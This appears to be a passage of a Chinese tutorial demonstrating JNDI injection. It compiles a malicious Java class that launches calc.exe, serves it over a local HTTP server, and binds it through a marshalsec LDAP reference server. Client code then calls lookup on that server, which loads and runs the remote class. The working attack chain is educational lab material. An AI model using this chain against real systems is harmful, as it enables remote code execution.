 ```java
public class Evil {

    public Evil() throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

编译得到Evil.class

在Evil.class所在文件夹下开启http服务

```java
python -m http.server 1234
```

![](img/http服务开启.png)

然后使用[marshalsec](https://github.com/RandomRobbieBF/marshalsec-jar)开启一个LDAP服务，该LDAP服务与HTTP服务器上的恶意类进行了绑定

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:1234/#Evil
```

![](img/LDAP服务开启.png)

编写代码向LDAP服务器请求恶意类

- 在`lookup`方法中就会将类实例化，调用构造函数，弹出计算器

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Ldap {

    public static void main(String[] args) throws NamingException {
        Context context = new InitialContext();
        context.lookup("ldap://127.0.0.1:1389/Evil");
    }
}
```

弹出计算器
